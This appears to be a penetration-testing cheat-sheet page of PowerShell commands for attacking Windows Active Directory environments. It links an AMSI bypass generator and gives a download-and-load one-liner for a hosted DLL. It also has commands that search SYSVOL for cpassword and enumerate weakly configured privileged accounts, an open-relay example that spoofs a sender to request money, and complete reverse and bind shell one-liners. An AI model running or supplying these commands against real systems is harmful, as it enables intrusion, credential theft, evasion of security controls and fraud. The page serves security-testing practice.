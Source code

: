 # Powershell

Command-line shell and scripting language in Windows used for task automation, configuration management, and system administration tasks.

## Files

- [powershell.exe](../assets/files/powershell.exe){:download="powershell.exe"}
- [powershell_ise.exe](../assets/files/powershell_ise.exe){:download="powershell_ise.exe"}

## Antimalware Scan Interface (AMSI) Bypass Generator

- [AMSI.fail](https://amsi.fail/)

## Active Directory PowerShell Module

This way the Active Directory PowerShell module can be used portable without administrator privileges. For example, when running in Azure Virtual Desktops or AzureAD managed devices, you will probably get the error message Unable to find a default server with Active Directory Web Services running.. Use the -Server DC01.offsec.nl flag after your CMDlet.

```powershell
mkdir C:\temp; iwr https://github.com/crypt0rr/filehosting/raw/master/Microsoft.ActiveDirectory.Management.dll -OutFile C:\temp\1234hoedjevanpapier.dll; Import-Module C:\temp\1234hoedjevanpapier.dll
```

##### PowerShell module

[Microsoft.ActiveDirectory.Management.dll](../assets/files/Microsoft.ActiveDirectory.Management.dll){:download="Microsoft.ActiveDirectory.Management.dll"}

```powershell
PowerShell: Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
```

## Examples

##### Adjust execution policy

```powershell
Set-ExecutionPolicy -scope process -execution bypass
```

##### Check ‘ms-DS-MachineAccountQuota’

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

##### List users with ‘Store passwords using reversible encryption’ enabled

```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

##### Finding cpassword

```powershell
findstr /s /n /i /p cpassword $env:logonserver\sysvol\*
```

##### Get members of specific group

```powershell
Get-ADGroupMember “Domain Admins”
Get-ADGroupMember “Domain Admins” | select SamAccountName
```

##### Get details

```powershell
$env:logonserver
```

##### Check which users home directories you have access to

```powershell
gci C:\users\*\*
```

##### Enable access to C-drive in Explorer

```powershell
subst z: c:\
```

##### Check how many computerobjects can be added by a user

```powershell
Get-ADObject ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

##### Overview domain admins

Where ‘Password Never Expires’ is set.

````powershell
Get-ADGroupMembers 'Domain Admins' | Foreach-Object {
Get-ADUser -Filter \* -Properties | Select-Object Name,DisplayName,sAMAccountName,PasswordLastSet,PasswordNeverExpires
} | Sort-Object Name, PasswordLastSet, PasswordNeverExpires | Format-Table -AutoSize

Where ‘Password Never Expires’ is NOT set.
```powershell
Get-NetGroupMember 'Domain Admins' | Foreach-Object {
Get-NetUser -Filter \* | Select-Object Name,DisplayName,sAMAccountName,PwdLastSet,AccountExpires
} | Sort-Object Select-Object Name,PwdLastSet | Format-Table -AutoSize
````

##### Check secureboot enabled

```powershell
Confirm-SecureBootUEFI
```

##### List users with PasswordNeverExpires enabled

```powershell
Import-Module ActiveDirectory
Get-ADUser -filter \* -properties Name, PasswordNeverExpires | where { $_.passwordNeverExpires -eq "true" } | where {$\_.enabled -eq "true" }
```

##### List Domain Admins where ‘Account is sensitive an cannot be delegated’ is not set

```powershell
Get-ADGroupMember "Domain Admins" | Get-ADUser -Properties AccountNotDelegated | Where-Object {-not $\_.AccountNotDelegated} | select AccountNotDelegated,Name,SamAccountName
```

Import-Module ActiveDirectory

##### Change user agent

```powershell
iwr -UserAgent 'Non existing user agent in use'
```

##### Enable repository use

For PowerShell 4 and higher. For 5.1 and higher you can try **Register-PSRepository -default** first otherwise use code below.

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

Install-PackageProvider -Name NuGet -RequiredVersion 2.8.5.208 -Force

Register-PSRepository -Name PSGallery -SourceLocation https://www.powershellgallery.com/api/v2/ -PublishLocation https://www.powershellgallery.com/api/v2/package/ -ScriptSourceLocation https://www.powershellgallery.com/api/v2/items/psscript/ -ScriptPublishLocation https://www.powershellgallery.com/api/v2/package/ -InstallationPolicy Trusted -PackageManagementProvider NuGet

Install-Module $ModuleName -scope CurrentUser
```

##### Copy remote file to local (WinRM)

```powershell
$ses = New-PSSession -ComputerName DC01 -Credentials $(Get-Credential)
Copy-Item -FromSession $ses C:\Users\adm-johndo\DC01\secrets.txt Z:\localdisk\secrets.txt
```

##### Open Relay

```powershell

Send-MailMessage -From 'Not John Do <finance@offsec.nl>' -To 'supplier@offsec.nl' -Subject 'Please send money' -SmtpServer 'openrelay.offsec.nl'
```

##### Download a file from a remote resource

When ran from cmd.exe add powershell -c "<command>"

```powershell
(new-object System.Net.WebClient).DownloadFile('https://www.7-zip.org/a/7z2201-x64.exe','C:\Users\crypt0rr\Desktop\7z2201-x64.exe')
```

## Shells (reverse/bind)

##### Reverse shell

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<TARGET-IP-HERE>',<TARGET-PORT-HERE>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

##### Bind shell

0.0.0.0 - will bind to every IP-address available on the local system

```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<TARGET-PORT-HERE>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

## Port Scan

```powershell
Test-NetConnection DC01.offsec.nl -port 389

ComputerName : DC01.offsec.nl
RemoteAddress : 10.10.10.10
RemotePort : 389
InterfaceAlias : Ethernet
SourceAddress : 10.0.0.4
TcpTestSucceeded : True

```
